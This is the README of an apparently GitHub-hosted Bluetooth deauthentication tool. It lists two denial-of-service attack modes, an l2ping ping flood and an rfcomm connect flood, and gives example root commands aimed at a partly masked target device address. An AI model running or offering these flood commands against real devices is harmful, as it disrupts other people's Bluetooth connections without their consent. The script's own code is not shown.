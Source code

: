 
# Bluetooth deauthenticator - blue-deauth v0.1.2-alpha
A simple script that makes possible BLE deauthentication!

![Visitors](https://api.visitorbadge.io/api/visitors?path=https%3A%2F%2Fgithub.com%2Fits0x08%2Fblue-deauth%2F&countColor=%232ccce4&style=flat-square)
[![Semgrep](https://github.com/its0x08/blue-deauth/actions/workflows/semgrep.yml/badge.svg)](https://github.com/its0x08/blue-deauth/actions/workflows/semgrep.yml)
[![Codacy Security Scan](https://github.com/its0x08/blue-deauth/actions/workflows/codacy.yml/badge.svg?branch=master)](https://github.com/its0x08/blue-deauth/actions/workflows/codacy.yml)

### Simple usage
```bash
Bluetooth deauthenticator v0.1.2-beta
Attack types:
        1.) l2ping - Ping flood
        2.) rfcomm - Connect flood

 [i] Usage: blue_dos.sh <target_addr> <packet_size> <attack_type>
root@kali:/scripts/blue-deauth# bash blue_dos.sh FC:58:FA:XX:XX:XX 600 1
root@kali:/scripts/blue-deauth# bash blue_dos.sh FC:58:FA:XX:XX:XX 600 2
```

### Requirements:
```
l2ping (comes with bluez)
rfcomm (comes with bluez)
```

### Tested only in Kali but any Linux OS that uses bluez should work.
---
## Pull requests and issues are welcome!
